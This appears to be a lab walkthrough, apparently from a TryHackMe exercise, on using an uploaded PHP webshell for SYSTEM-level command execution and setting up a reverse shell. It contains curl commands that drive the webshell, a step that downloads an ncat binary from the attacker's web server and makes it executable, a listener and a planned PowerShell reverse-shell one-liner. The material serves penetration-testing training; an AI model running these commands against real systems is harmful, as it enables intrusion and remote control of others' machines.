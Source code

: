 In the previous task we had a look through the source code of the exploit we found, identified the lines which needed to be updated, then made the necessary changes.

![[Exploitation-20241222141211867.webp]]

Success!

Not only did the exploit work perfectly, it gave us command execution as NT AUTHORITY\SYSTEM, the highest ranking local account on a Windows target.

From here we want to obtain a full reverse shell. We have two options for this:

1. We could change the command in the exploit and re-run the code
2. We could use our knowledge of the script to leverage the same webshell to execute more commands for us, without performing the full exploit twice

Option number two is a lot quieter than option number 1, so let's use that.

---

The webshell we have uploaded responds to a POST request using the parameter "`a`" (by default). This means that we have two easy ways to access this. We could use cURL from the command line, or BurpSuite for a GUI option.

## With cURL  
`curl -X POST http://IP/web/exploit-USERNAME.php -d "a=COMMAND"`

![[Exploitation-20241222145319679.webp]]

> [!Note]
>In this screenshot,_`gitserver.thm` has been added to the `/etc/hosts` file on the attacking machine, mapped to the target IP address.


## With BurpSuite
We first turn on our Burp proxy (see the [Burpsuite room](https://tryhackme.com/room/rpburpsuite) if you need help with this!) and navigate to the exploit URL:

![[Exploitation-20241222145720411.webp]]

Press send, and see the response come in!

![[Exploitation-20241222145746536.webp]]

With two methods available, pick your favorite and we'll aim for a shell!


---
# Your job

- Create a webshell with cURL.
	`curl -X POST http://10.200.84.150/web/exploit-KAIROS.php -d "a=whoami"`
	
	![[Exploitation-20241222152701712.webp]]
- Check the target for information.
	`curl -X POST http://10.200.84.150/web/exploit-KAIROS.php -d "a=systeminfo"`
	 ![[Exploitation-20241222152545435.webp]]
- Create a Firewall rule.
	- Connect to the prod-server (10.200.84.200) via SSH.
		$ `ssh root@10.200.84.200 -i id_rsa`
	- Create a Firewall rule to allow connections through.
		root@prod-serv ~# `firewall-cmd --zone=public --add-port 23337/tcp`
	- Get **ncat** binary from attacker machine.
		- Download ncat from https://github.com/andrew-d/static-binaries.git.
			$ `git clone https://github.com/andrew-d/static-binaries.git`
		- Open a Python Webserver.
			$ `sudo python3 -m http.server 80`
		- On the Reverse Shell terminal run:
			root@prod-serv ~# `curl 10.50.85.33/ncat -o /tmp/ncat-sv && chmod +x /tmp/ncat-sv`
		- Open a listener on the Reverse Shell.
			root@prod-serv tmp# `./ncat-sv -nvlp 23337`

- On the attacking machine use powershell reverse-shell one-liner with webshell using curl.
- `curl -X POST http://10.200.84.150/web/exploit-KAIROS.php -d "a=<URL-encoded command>"`



- **Bonus Question (Optional):** Using the given code for the exploit we used against the web server, see if you can adapt this exploit to create a full pseudoshell environment.